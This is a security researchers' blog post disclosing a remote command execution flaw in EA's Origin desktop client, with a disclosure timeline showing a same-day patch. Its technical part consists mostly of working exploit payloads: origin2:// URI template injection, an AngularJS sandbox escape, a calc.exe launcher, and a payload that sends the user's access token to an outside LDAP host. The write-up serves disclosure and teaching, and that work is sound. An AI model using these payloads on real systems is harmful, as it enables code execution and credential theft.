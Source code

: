 ```yaml
---
layout: post
title: "RCE in EA's Origin client"
date: 2019-04-16
author: Admin
img: post01.jpg
thumb: thumb01.jpg
---
```


Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security.

### What is Origin?
Origin is an online gaming, digital distribution and digital rights management platform developed by Electronic Arts that allows users to purchase games for PC and mobile platforms. Origin is home to gaming title giants such as Apex Legends, The Sims, and Battlefield. 
### What did we find?
We located a client-sided template injection, where we proceeded to use an AngularJS sandbox escape and achieve RCE by communicating with QtApplication's QDesktopServices.
### Technical explanation
We were simply curious and looking around at the `origin2` URI handler, when we came across a parameter where we could supply data that would be echoed back to us in the Origin client, prompting us to start tinkering. 

Example: 
{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title=example
{% endraw %}
{% endhighlight %}

![example title](/assets/origin_orce/example_title.jpg)

After some quick testing, we learnt that there was a client-sided template injection in the `title` parameter. 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{668.5*2}}
{% endraw %}
{% endhighlight %}

![1337 template injection](/assets/origin_orce/template_injection.jpg)

What next!? We already knew due to prior tinkering that Origin ran on AngularJS. Thanks to amazing work by other researchers in the past, with a simple Google search, we can find plenty of working AngularJS sandbox escapes. We used these: [link to payloads](https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3)

With these payloads, we were able to escape the AngularJS sandbox using the template injection. This is the payload we used: 

{% highlight ruby %}
{% raw %}
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}
{% endraw %}
{% endhighlight %}

The entire payload ended up becoming: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
{% endraw %}
{% endhighlight %}

![sandbox escape](/assets/origin_orce/sandbox_escape.jpg)

We then learnt that by leveraging the in-client API, you can communicate with the QtApplication's QDesktopServices. 

To pop a calculator, we used the following payload:

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("calc.exe"),a')}}
{% endraw %}
{% endhighlight %}

{% include vimeoPlayer.html id=page.vimeoId %}

As normal with an RCE, this would've allowed an attacker to execute any kind of commands their heart desired on a targets machine. Not good to say the least...

An attacker could also steal a users access token many of ways, for example, through LDAP: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"),a')}}
{% endraw %}
{% endhighlight %}

Moral to the story Origin; sanitize your inputs!

Thank you for reading!

----
### Disclosure timeline
* April 15, 2019 - Vulnerability identified
* April 16, 2019 - Vulnerability reported
* April 16, 2019 - Vulnerability patched
* April 16, 2019 - Public disclosure

* Dominik Penner - [Twitter](https://twitter.com/zer0pwn)
* Daley Bee - [Twitter](https://twitter.com/daley)
